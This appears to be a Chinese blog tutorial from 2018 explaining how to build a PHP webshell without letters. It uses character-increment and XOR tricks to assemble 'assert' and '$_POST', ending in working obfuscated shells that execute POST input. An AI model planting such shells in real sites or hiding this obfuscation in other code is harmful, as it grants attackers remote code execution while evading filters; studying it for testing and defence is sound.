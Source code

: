 ```yaml
---
title: "无字母 PHP Shell"
date: 2018-05-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['编程','web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在处理字符变量的算数运算时, PHP 沿袭了 Perl 的习惯. 例如, a = ‘Z’; a++; 将把 $a 变成’AA’, 注意字符变量只能递增, 不能递减, 并且只支持纯字母 (a-z 和 A-Z).

php 弱类型的坑.

参考 P 牛的文章, 自己整理一下.

<!--more-->

## ASCII

利用之前介绍的特性.

首先要有一个字母 A, 之后才能通过递增得到其它字母.

由于 php 弱类型的特性, array 转换为 string 时会得到 Array.

```
$_ = ''.[];
echo $_; // Array
```

通过 `!` 进行非运算, bool 类型强制转换就会变成 0 or 1.

```
echo ''; //
echo !(''); // 1
echo ('!'=='@') //
echo !('!'=='@'); // 1
```

获取字符 A.

```
$_ = ''.[];
echo $_[''];
```

之后通过递增获取其它字符.

```
$_ = ''.[];
$_ = $_[''];
$_; // A
$___ = $_;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$___ .= $__.$__;
$__ = $_;
$__++;$__++;$__++;$__++; // E
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___ .= $__; // ASSERT
$____ = '_';
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____ .= $__; // _POST
```

变量覆盖 得到 `$_POST`.

```
$_ = $$____; // $_POST
```

拼接.

```
$___($_[_]); // ASSERT($_POST[_])
```

php 不区分大小写.

## Xor

在PHP中, 两个变量进行异或时, 会将字符串转换成二进制再进行异或.

两个 foreach 跑出异或结果, 之后拼接.

```
<?php
@$_++; // 1
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1])
?>
```